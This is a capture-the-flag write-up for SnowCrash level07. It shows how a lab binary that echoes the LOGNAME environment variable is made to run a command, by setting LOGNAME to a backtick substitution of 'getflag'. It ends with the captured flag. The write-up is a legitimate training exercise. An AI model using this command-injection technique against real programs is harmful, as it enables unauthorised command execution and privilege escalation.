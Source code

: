 # Step 1
A binary file named `level07` is present in the home directory of `level07`.
```bash
level07@SnowCrash:~$ ./level07
level07
```
this print `level07` and exits.

# Step 2
After some research, we can see that the binary print the content of the environment variable `LOGNAME`.

```bash
level07@SnowCrash:~$ export LOGNAME="test"
level07@SnowCrash:~$ ./level07
test
```

So we want to execute the command `getflag` by setting the `LOGNAME` environment variable to `getflag`.

To do this, we have to make a command substitution in the export command.

> see: <https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html>


```bash
export LOGNAME=\`getflag\`
./level07
```

### Result

flag07: `fiumuikeil55xe9cu4dood66h`

No password needed for `flag07` user.

